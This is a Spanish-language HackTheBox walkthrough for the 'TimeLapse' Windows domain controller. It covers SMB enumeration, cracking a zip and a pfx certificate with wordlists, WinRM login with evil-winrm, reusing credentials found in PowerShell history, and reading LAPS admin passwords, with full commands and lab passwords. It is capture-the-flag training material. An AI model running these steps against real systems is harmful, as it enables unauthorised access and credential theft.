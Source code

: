 ```yaml
---
title: HTB - TimeLapse
author: J.Conde
date: 2022-08-21 14:43:00 -03000 
categories: [HackTheBox, Dificultad Fácil]
tags: [htb, guide]
math: true
mermaid: true
image:
  src: https://i.postimg.cc/DwZFYmHG/Timelapse.png
  width: 500
  height: 200
---
```


## Indice

- [Enumeración](#enumeración)
- [Ganando acceso al sistema](#ganando-acceso-al-sistema)
- [Escalada de privilegios](#escalada-de-privilegios)

### Enumeración

Comenzamos con una enumeración de puertos por TCP con nmap.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.152 -oG OpenPorts
```

- Resultado nmap
    - **53/tcp    open  domain**
    - **88/tcp    open  kerberos-sec**
    - **135/tcp   open  msrpc**
    - **139/tcp   open  netbios-ssn**
    - **389/tcp   open  ldap**
    - **445/tcp   open  microsoft-ds**
    - **464/tcp   open  kpasswd5**
    - **593/tcp   open  http-rpc-epmap**
    - **636/tcp   open  ldapssl**
    - **3268/tcp  open  globalcatLDAP**
    - **3269/tcp  open  globalcatLDAPssl**
    - **5986/tcp  open  wsmans**
    - **9389/tcp  open  adws**
    - **49667/tcp open  unknown**
    - **49673/tcp open  unknown**
    - **49674/tcp open  unknown**
    - **49694/tcp open  unknown**
    - **53672/tcp open  unknown**

Podemos ver que es un controlador de dominio, lo que vamos a hacer ahora, es ver que recursos tiene compartidos. 

```bash
smbclient -L 10.10.11.152 -N
```

- Resultado smbclient
    - ADMIN$
    - C$
    - IPC$
    - NETLOGON
    - Shares
    - SYSVOL

Podemos ver que tiene una carpeta interesantes llamada **shares**. Vamos a conectarnos a ellas, y vemos el contenido que tiene dentro. 

- Indicamos 4 y 2 barras para **escaparlas**

```bash
smbclient \\\\10.10.11.152\\shares
```

Una vez que entramos y investigamos un poco podemos ver un zip interesantes, que vamos a descargar a nuestro equipo. 

```bash
get winrm_backup.zip
```

Si intentamos descomprimir el zip, no pide una clave por lo que vamos a probar a realizar fuerza bruta con una herramienta propia para cracking de zips. 
- **-D** → Modo diccionario
- **-u** → Modo descomprimir
- **-p** → Usar una cadena como contraseña.

```bash
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
```

Genial, hemos podido obtener la clave que es `supremelegacy`.  Vamos a descomprimirlo usando la clave que nos ha devuelto. 

```bash
unzip winrm_backup
```

Una vez descomprimido podemos ver un fichero pfx, si miramo el nombre del zip nos puede dar una pista. Si recordamos, **evil-winrm**, nos permite realizar una conexión haciendo uso del  certificado y la clave privada, por lo que vamos a intentar sacar la contraseña del pfx para generar el certificado y la clave privada. 

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```

Ahora vamos a crackear ese hash obtenido. 

```bash
john -w /usr/share/wordlists/rockyou.txt pfx.hash --rule /usr/share/john/rules/rockyou-30000.rule
```

Genial, la hemos obtenido, la clave es `thuglegacy`. Vamos a generar nuestro certificado y nuestra clave privada. Comenzamos con la clave privada.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out kprivada.pem -nodes
```

Ahora, sacamos el certificado. 

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem
```

### Ganando acceso al sistema

- Pasamos la clave privada a un .key.

```bash
cat kprivada.pem > kprivada.key
```

- Pasamos el certificado a un .cert.

```bash
cat certificado.pem > certificado.cert
```

Ahora que ya hemos obtenido ambas cosas, vamos a conectarnos con evil-winrm. 
- -S → Habilitar SSL 
- -k → Clave Privada (PATH)
- -c → Clave Publica (PATH)
- -i → IP del equipo remoto o hostname

```bash
evil-winrm -S -k kprivada.key -c certificado.cert -i 10.10.11.152
```

Listo, ya estamos dentro del S.O, genial, ya podemos ver la flag del usuario. Vamos a ver que usuario somos de varias formas.

```powershell
whoami
whoami /user
[System.Environment]::UserName
```

Vemos que somos el usuario legaccy, vamos a dirigirnos al escritorio, y vamos a ver la flag. 

```powershell
gc C:\Users\legaccy\Desktop\user.txt
```

### Escalada de privilegios

Vamos a pasar el archivo winpeas.bat a nuestra máquina victima y lo vamos a ejecutar. 

- Donwload [**winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
./winpeas.bat
```

Vemos un fichero sospechosos, llamado **ConsoleHost_history.txt**. Dentro del podemos ver que hay un usuario con permisos, que ejecuta comandos con privilegios. Vamos a usar las variables del fichero para nosotros generar una conexión y ejecutar comandos como ese usuario. 

```powershell
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

Ahora vamos a ejecutar un comandos que nos va a permitir ver la contraseña del usuario admin. 

```powershell
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Bien, nos ha devuelto una contraseña que es **8p4Uc,AC5lJ9E]P9X7#3$10@**. Vamos a cerrar esta sesión y conectarnos como el usuario administrador por evil-winrm de nuevo. 

```powershell
evil-winrm -u 'Administrator' -p '8p4Uc,AC5lJ9E]P9X7#3$10@' -i 10.10.11.152  -S
```

Ahora que nos conectamos como administrador, ya podemos ver la flag del root, si no sabemos donde se ubica podemos usar el siguiente comando: 

```powershell
Get-ChildItem -Path C:\ root.txt -Recurse 2>$null
```
